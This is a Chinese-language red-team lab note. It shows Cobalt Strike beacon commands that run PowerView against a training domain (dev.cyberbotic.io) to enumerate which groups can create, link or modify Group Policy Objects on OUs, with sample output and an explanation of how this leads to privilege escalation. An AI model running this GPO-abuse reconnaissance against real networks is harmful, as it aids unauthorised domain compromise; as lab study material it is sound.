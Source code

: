 
This query will return the principals that can write to the GP-Link attribute on OUs:
```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl

ObjectDN           : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Tier 1,OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Tier 2,OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125
```

从上面的输出可以看到，```1st Line Support```域组既可以创建新的 GPO ，也可以将它们链接到多个 OU。
 如果更多的特权用户被认证到这些OU内的任何机器上，这可能导致特权升级。还可以想象一下，如果我们可以将GPO链接到包含敏感文件或数据库服务器的OU上--我们可以使用这些GPO来访问这些机器，随后访问存储在这些机器上的数据。



获取某个OU的计算机列表
```
beacon> powershell Get-DomainComputer | ? { $_.DistinguishedName -match "OU=Tier 1" } | select DnsHostName

dnshostname            
-----------            
srv-1.dev.cyberbotic.io
```


下面查询返回所有拥有WriteProperty、WriteDacl或WriteOwner权限的SID
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN={AD7EE1ED-CDC8-4994-AE0F-50BA8B264829},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1126

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1126
DEV\Developers
```

查看上面结果中ObjectDN的名字
```
beacon> powershell Get-DomainGPO -Name "{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}" -Properties DisplayName

displayname       
-----------       
PowerShell Logging
```

